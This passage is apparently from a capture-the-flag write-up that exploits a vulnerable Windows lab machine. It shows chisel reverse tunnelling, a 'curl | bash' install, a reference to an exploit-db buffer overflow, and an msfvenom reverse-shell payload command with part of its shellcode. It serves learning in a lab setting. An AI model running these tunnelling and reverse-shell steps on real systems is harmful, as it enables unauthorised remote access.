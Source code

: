 ### Tunneling

To remotely exploit it, We would need to use a software like **chisel** to forward the port on our own host and be able to start attacking.

I'm going to download chisel.exe from [here](https://github.com/jpillora/chisel/releases/tag/v1.7.3) and upload on the target machine the same way I used to download netcat.

You would also need to install **chisel** on your attacking machine by doing so : 
```sh
root@kali:~# curl https://i.jpillora.com/chisel! | bash
```
To initiate a chisel server and forward the local port on our host I'll use the following command in kali , where **chisel** will act as a server : 
```sh
root@kali:~# chisel server -p 9999 --reverse
2020/11/22 16:57:19 server: Reverse tunnelling enabled
2020/11/22 16:57:19 server: Fingerprint a63KtuIHgw77NOvEkBiELKD5r+XZqaveL6gaGH1SMdg=
2020/11/22 16:57:19 server: Listening on http://0.0.0.0:9999
```
Next, on the target machine where **chisel** will act as a client I'll fire the following command :
```
C:\xampp\htdocs\gym\upload>chisel.exe client 10.10.14.127:9999 R:8888:127.0.0.1:8888
2020/11/22 16:07:14 client: Connecting to ws://10.10.14.127:9999
2020/11/22 16:07:14 client: Fingerprint 3e:9b:22:0a:bc:86:88:37:da:bc:fe:ff:13:89:a9:20
2020/11/22 16:07:15 client: Connected (Latency 512.4523ms)
```
With everything already set-up now, We can try to attack the vulnerable software. 

I'm going to use the exploit from [https://www.exploit-db.com/exploits/48389](https://www.exploit-db.com/exploits/48389) which requires some modifications such as changing the shellcode in order to match with our listening port and ip.

### Exploiting the vulnerable software

Using ``searchsploit -m`` we can again copy the exploit to a more flexible path :

![bof](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/bof.png)

### Generating the shellcode

To generate the shellcode I can use **msfvenom** with the following options: 
```sh
root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.127 LPORT=9002 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xbb\xc4\x1c\x1b\x3a\xda\xda\xd9\x74\x24\xf4\x5a\x29"
[...]
```
